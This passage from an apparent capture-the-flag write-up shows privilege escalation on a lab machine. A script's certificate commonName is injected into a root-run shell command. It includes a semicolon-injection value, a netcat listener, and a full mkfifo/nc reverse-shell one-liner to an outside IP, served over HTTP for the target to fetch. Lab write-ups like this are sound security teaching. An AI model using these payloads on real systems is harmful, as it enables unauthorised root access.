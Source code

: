When this is done, it creates a new certificate with these variables:

```bash
openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /tmp/temp.key -out /tmp/temp.crt -days 365 <<<"$country
    $state
    ...
```

And lastly, it moves the cerificate to bill's home directory:

```bash
/bin/bash -c "mv /tmp/temp.crt /home/bill/Certs/$commonName.crt"
```

This last command is interesting because it executes a command where i control a part of it (the `commonName` variable). I can abuse this by putting a semicolon character in the `commonName` variable. A sample payload that executes the `id` command:

```bash
commonName="certname;id;"
```

The second semicolon is necessary since the script adds the `.crt` extension to the certificate name, and it would break the command.

After the variable substitution, the final command will look like this:

```bash
/bin/bash -c "mv /tmp/temp.crt /home/bill/Certs/certname;id;.crt"
```

I can test on my local machine that this exploit indeed works.

Now let's get the root shell! First, i will setup a listener to catch the reverse shell:

```bash
nc -lvnp 9999
listening on [any] 9999 ...
```

Now move over to the vulnerable machine and create the malicious certificate. Few things to remember:
- The certificate needs to be located at `/home/bill/Certs/broscience.crt`.
- The certificate needs to expire in less than a day when the script runs.

When creating the certificate, i ran into an issue:

```
Common Name (e.g. server FQDN or YOUR name) []:whatever;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.169 9999 >/tmp/f;
string is too long, it needs to be no more than 64 bytes long
```

The payload is too long. I can deal with this by hosting the payload on a web server:

```bash
❯ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.169 9999 >/tmp/f' > x
❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
